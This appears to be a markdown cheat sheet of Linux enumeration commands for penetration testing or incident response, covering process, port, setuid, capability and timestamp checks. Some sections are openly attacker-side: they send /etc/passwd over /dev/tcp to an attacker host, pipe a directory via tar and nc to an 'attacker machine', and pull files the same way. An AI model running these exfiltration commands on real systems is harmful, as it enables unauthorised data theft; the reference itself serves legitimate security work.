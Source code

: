 # enumeration quick commands

## list all recursively with ls sorting by modification date within directories
```bash
ls -alRt
```

## enumerate open ports if `ss` is not present
```bash
netstat -tunlp
```

## process tree ps
```bash
ps -auxwf
ps -efw --forest
ps -efw --forest -M                  # SELinux
```

## find setuid binaries
```bash
find / -perm -4000 -ls 2>/dev/null
```

## find files belonging to user
```bash
find / -user username 2>/dev/null
```

## find files belonging to group
```bash
find / -group adm 2>/dev/null
```

## find files modified between specific dates
```bash
find / -type f -newermt "2022-02-20" -not -newermt "2022-02-28" 2>/dev/null
```

## find files modified between specific dates (with reference files)
```bash
touch --date "2007-01-01" /tmp/start
touch --date "2008-01-01" /tmp/end
find /data/images -type f -newer /tmp/start -not -newer /tmp/end 2>/dev/null
```

## get all file hashes in directory using find and md5sum
```bash
find . -exec md5sum {} \;
```

## get number of CPU processors
```bash
cat /proc/cpuinfo | grep processor | wc -l
```

## find all git repositories
```bash
find / -name .git 2>/dev/null
```

## get IP with no `ifconfig` or `ip a` on a host or within docker container
```bash
hostname -I
```
    -i, --ip-address       addresses for the host name
    -I, --all-ip-addresses all addresses for the host

## download files with just bash 
```bash
bash -c "cat < /dev/tcp/$LHOST/$LPORT" > filename
```
On attacker machine, `nc -lvnp $LPORT < filename`
## exfiltrate files bash pipe tcp
```bash
cat /etc/passwd > /dev/tcp/$LHOST/$LPORT
bash -c "cat /etc/passwd > /dev/tcp/$LHOST/$LPORT"
```

## find files that have millisecond microsecond nanosecond times not common install
files from package managers usually have all 0 for microsecond time in the file system, so files with microsecond times were touched by programs.
full iso time can be sorted alphabetically, so pipe to sort to sort the results.
```bash
find /etc/ -type f -printf "%T+ %p\n" 2>/dev/null | grep -v 0000000000
find /etc/ -type f -printf "%T+ %p\n" 2>/dev/null | grep -v 0000000000 | sort
```

## copy entire directory to attacker machine quickly by piping tar
attacker
```bash
# attacker
nc -lvnp 1337 | tar -xf -
# target
tar -cf - . | nc $LHOST 1337
```

## get capabilities of all files recursively
```bash
getcap -r / 2>/dev/null
```

## list systemd timers
```bash
systemctl list-timers
```

## check if users can see other users' processes
the proc pseudo file system will be mounted with `hidepid=2`.
the `gid` option specifies a group id that can read all processes.
```bash
mount | grep hidepid
```

## file transfer with cat herefiles
```bash
cat << EOF >> filename.sh
# paste file contents here
EOF
```
